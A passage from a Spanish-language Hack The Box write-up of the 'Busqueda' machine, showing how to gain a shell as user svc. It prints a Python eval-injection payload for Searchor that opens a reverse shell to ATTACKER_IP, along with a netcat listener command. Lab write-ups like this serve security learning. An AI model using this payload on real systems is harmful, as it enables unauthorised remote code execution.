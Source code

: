 ![](/assets/images/htb-writeup-busqueda/web6.png)

![](/assets/images/htb-writeup-busqueda/web7.png)

## Shell as svc 

Aqui nos explican como ejecutar una `reverse shell` <https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/> o aquí hay otra manera <https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit->

```bash
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Primero nos ponemos en escucha

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
```

